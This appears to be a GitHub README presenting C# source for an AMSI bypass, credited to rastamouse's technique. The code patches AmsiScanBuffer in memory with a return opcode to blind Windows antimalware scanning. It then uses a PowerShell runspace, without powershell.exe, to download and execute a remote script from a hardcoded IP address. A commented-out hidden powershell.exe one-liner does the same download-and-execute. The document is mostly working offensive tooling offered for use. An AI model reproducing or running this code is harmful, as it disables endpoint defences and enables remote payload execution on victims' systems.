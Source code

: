 AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.


**This AMSI Patching Techniquie is heavy reliance on rastamouse Techniques**
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {
          
            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }
        //powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/Test'))"
        public class Execution
        {
            public static void MeMe()
            {
                RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
                Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
                rspace.Open();
                Pipeline pipeline = rspace.CreatePipeline();
                pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('http://192.168.200.128:80/Test'))");
                pipeline.Invoke();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
